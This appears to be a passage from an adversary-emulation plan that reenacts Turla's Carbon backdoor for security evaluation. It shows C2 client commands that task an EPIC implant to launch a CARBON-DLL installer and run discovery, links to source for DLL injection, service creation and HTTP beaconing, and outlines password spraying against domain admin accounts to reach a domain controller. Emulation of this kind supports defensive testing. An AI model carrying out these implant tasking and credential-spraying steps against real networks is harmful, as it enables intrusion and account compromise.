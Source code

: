 * Once the download has completed successfully, wait 1 minute and then task the EPIC implant to execute the CARBON-DLL installer:
```bash
./evalsC2client.py --set-task 51515228-8a7b-4226-e6e3f4 'exe | C:\Windows\System32\WinResSvc.exe'
```

* CARBON-DLL should inject into the Microsoft Edge process and beacon back to the C2 server. Check that there is a new Carbon implant session registered  with the C2 server
  * 📷 - upload a screenshot of the new implant session.

* Wait 1 minute and then task the Carbon implant to execute some discovery commands:
```bash
./evalsC2client.py --set-task 9b5ef515 '{"id": 0, "cmd": "whoami"}'
```

### :moyai: Source Code

* [CARBON-DLL installer](CarbonInstaller_README.md)
  * [Drop components](file_handler.cpp#L178)
  * [Create Loader Service](service_handler.cpp#L170)
    * Service registry edits: [1](service_handler.cpp#L230), [2](service_handler.cpp#L284)
  * [Start Loader Service](service_handler.cpp#L354)
  * [Loader Service](service.cpp)
* [CARBON-DLL Orchestrator](Orchestrator_README.md)
  * [Comms Lib DLL Injection](injection.cpp#L454)
  * [Task Execution](tasking.cpp#L388)
* [CARBON-DLL Comms Lib](CommLib_README.md)
  * [Beacon and task retrieval over HTTP](CommLib.cpp#L313)
  * [Upload task output over HTTP](CommLib.cpp#L342)
* EPIC
  * File download [DownloadFile](epic.cpp#L441-L466)


### :microscope: Cited Intelligence

* <https://www.welivesecurity.com/2017/03/30/carbon-paper-peering-turlas-second-stage-backdoor/>
* <https://www.ncsc.admin.ch/ncsc/en/home/dokumentation/berichte/fachberichte/technical-report_apt_case_ruag.html>
* <https://www.gdata.pt/blog/2015/01/23926-analysis-of-project-cobra>

<br>

## Step 5 - Lateral Movement to Domain Controller

:microphone: `Voice Track:`

Step 5 emulates Turla laterally moving to the domain controller by conducting
password spraying to retrieve a domain admin's credentials to the domain
controller and using a scheduled task to gain execution on the domain
controller.

CARBON-DLL downloads a batch script which uses sprays several of the discovered
domain admin accounts with weak passwords, one of which successfully mounts the
`C:\` drive of the domain controller.
